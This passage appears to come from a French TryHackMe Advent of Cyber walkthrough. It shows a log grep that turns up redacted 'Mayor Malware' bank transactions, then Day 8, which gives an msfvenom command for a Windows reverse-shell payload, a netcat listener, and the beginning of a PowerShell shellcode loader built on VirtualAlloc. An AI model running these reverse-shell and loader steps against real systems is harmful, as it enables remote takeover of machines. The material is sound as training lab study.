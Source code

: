 ```bash
grep -E '([0-9]{4}\s){3}[0-9]{4}' rds.log | grep -i 'mayor'
```

{% capture spoil %}
2024-11-28T15:23:02.605Z 2024-11-28T15:23:02.605700Z      263 Query	INSERT INTO wareville_bank_transactions (account_number, account_owner, amount) VALUES ('[...expurgé...]', 'Mayor Malware', 193.45)
2024-11-28T15:23:02.792Z 2024-11-28T15:23:02.792161Z      263 Query	INSERT INTO wareville_bank_transactions (account_number, account_owner, amount) VALUES ('[...expurgé...]', 'Mayor Malware', 998.13)
2024-11-28T15:23:02.976Z 2024-11-28T15:23:02.976943Z      263 Query	INSERT INTO wareville_bank_transactions (account_number, account_owner, amount) VALUES ('[...expurgé...]', 'Mayor Malware', 865.75)
2024-11-28T15:23:03.161Z 2024-11-28T15:23:03.161700Z      263 Query	INSERT INTO wareville_bank_transactions (account_number, account_owner, amount) VALUES ('[...expurgé...]', 'Mayor Malware', 409.54)
[...expurgé pour brièveté...]
{% endcapture %}
{% include elements/spoil.html %}

## Jour 8 : Shellcodes du monde, rassemblement

![Shellcodes](https://img.shields.io/badge/Shellcodes-453368?logo=tryhackme)

![Jour 8](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1730451713924.svg)

Le but de l'exercice est de créer une charge permettant d'obtenir un {% include dictionary.html word="reverse-shell" %} sur une machine Windows.

Nous aurons besoin de créer la charge en elle-même depuis notre machine d'attaque avec la commande :

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.182.77 LPORT=4444 -f powershell
```

Puis nous ouvrons le port 4444 en attente de connexion avec {% include dictionary.html word="Netcat" %} sur la machine d'attaque :

```bash
rlwrap nc -lvnp 4444
```

Ensuite, sur la machine cible, nous lançons un terminal PowerShell et nous commençons par copier le bloc

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor
```
